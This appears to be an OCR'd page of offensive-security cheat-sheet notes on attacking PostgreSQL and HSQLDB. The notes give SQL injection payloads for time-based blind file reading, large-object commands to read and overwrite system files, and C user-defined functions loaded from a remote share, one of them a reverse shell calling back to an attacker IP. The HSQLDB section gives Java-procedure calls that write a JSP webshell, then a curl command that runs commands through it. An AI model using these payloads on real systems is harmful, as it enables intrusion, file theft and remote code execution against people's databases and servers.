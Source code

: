 	    Reading File:  create+temp+table+ABC+(content+text);copy+ABC+from+$$c:\ABC.txt$$;select+case+when(ascii(substr((select+content+from+ABC),1,1))=104)+then+pg_sleep(10)+end;--+
	Large Objects:
	    select lo_import('C:\\Windows\\win.ini', 1337);	//load file into memory
	    select loid, pageno from pg_largeobject;	//file is divided into 2kb 'pages' in the table
	    select loid, pageno, encode(data, 'escape') from pg_largeobject;
	    update pg_largeobject set data=decode('77303074', 'hex') where loid=1337 and pageno=0;	//update each page individually
	    select lo_export(1337, 'C:\\new_win.ini');	//resave as new file
	    SELECT lo_unlink(1337);	//delete LO from memory
	Loading Extensions (User-Defined Functions):
		CREATE OR REPLACE FUNCTION remote_test(text, integer) RETURNS void AS $$\\192.168.1.1\myshare\exec.dll$$, $$execFunc$$ LANGUAGE C STRICT;
                SELECT remote_test($$calc.exe$$, 3);
		CREATE OR REPLACE FUNCTION rev_shell(text, integer) RETURNS void AS $$\\\\192.168.119.158\\awae\\rev_shell.dll$$,$$connect_back$$ LANGUAGE C STRICT;
		SELECT rev_shell($$192.168.1.1$$, 4444);
		Base64 Insert:
			INSERT INTO pg_largeobject (loid, pageno, data) values (173454, 0, decode('<B64 chunk1>', 'base64'));
			INSERT INTO pg_largeobject (loid, pageno, data) values (173454, 1, decode('<B64 chunk2>', 'base64'));
			INSERT INTO pg_largeobject (loid, pageno, data) values (173454, 3, decode('<B64 chunk2>', 'base64'));
		Hex Insert:  update pg_largeobject set data=decode('68656c6c6f', 'hex') where loid=173454 and pageno=0; 

### HSQLDB Interaction:
	Download .jar and connect:  java -cp hsqldb.jar org.hsqldb.util.DatabaseManagerSwing --url jdbc:hsqldb:hsql://abc:9001/app --user abc --password abc
	RCE - calling Java code via custom procedures:
		ex. Checking system properties:
                    CREATE FUNCTION systemprop(IN key VARCHAR) RETURNS VARCHAR 
                     LANGUAGE JAVA 
                     DETERMINISTIC NO SQL
                     EXTERNAL NAME 'CLASSPATH:java.lang.System.getProperty'
                    Call it:  VALUES(systemprop('java.class.path'))
		Use Function in the App's Class Path (ex. a write file function):
                    CREATE PROCEDURE writeBytesToFilename(IN paramString VARCHAR, IN paramArrayOfByte 
                    VARBINARY(1024)) 
                     LANGUAGE JAVA 
                    DETERMINISTIC NO SQL
                     EXTERNAL NAME 
                    'CLASSPATH:com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename'
                    Convert payloads to ascii hex, then call:
                        call writeBytesToFilename('test.txt', cast ('497420776f726b656421' AS VARBINARY(1024)))
                    RCE Options:
                        write JSP webshell and access in browser
                    Write Webshell (/usr/share/webshells/jsp/cmdjsp.jsp):
                        convert to Linux; make smaller by removing html; encode to hex
                        call writeBytesToFilename('../../apache-tomee-plus-7.0.5/apps/abc/shell.jsp', cast('ABC...' as VARBINARY(1024)))
                        ACCESS:  curl http://abc:8080/abc/shell.jsp?cmd=hostname
